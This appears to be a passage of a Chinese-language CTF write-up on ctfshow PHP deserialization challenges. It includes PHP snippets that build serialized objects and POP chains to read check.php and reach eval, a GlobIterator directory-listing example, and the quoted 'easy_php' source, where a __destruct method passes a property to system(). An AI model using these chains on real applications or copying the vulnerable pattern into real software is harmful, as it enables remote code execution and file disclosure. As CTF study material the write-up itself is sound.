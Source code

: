 当时唯一疑惑点就在读文件上，看wp好像略有繁琐，因为可以直接读取check.php,写出解密函数

```php
$a=new w_wuw_w();
$a->file="check.php";
$a->aaa=&$a->key;
echo(serialize($a));
```

这个引用确实想到过，但是当初应该是写错了&的位置

**eval pop**

```php
$a = new EeE;
$b = new gBoBg;
$c = new w_wuw_w;
$a -> text = $b;
$b -> file="a";
$b -> coos = $c;
$c -> aaa = $a;
echo serialize($a);
```

wp提到了php原生类 `GlobIterator`的用法，确实没有想到

usage:

```php
$iterator = new GlobIterator('/path/to/dir/*.txt');
foreach ($iterator as $file) {
    echo $file->getPathname() . "\n";
}
```

### easy_php

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2023-03-24 10:16:33
# @Last Modified by:   h1xa
# @Last Modified time: 2023-03-25 00:25:52
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);

class ctfshow{

    public function __wakeup(){
        die("not allowed!");
    }

    public function __destruct(){
        system($this->ctfshow);
    }

}

$data = $_GET['1+1>2'];

```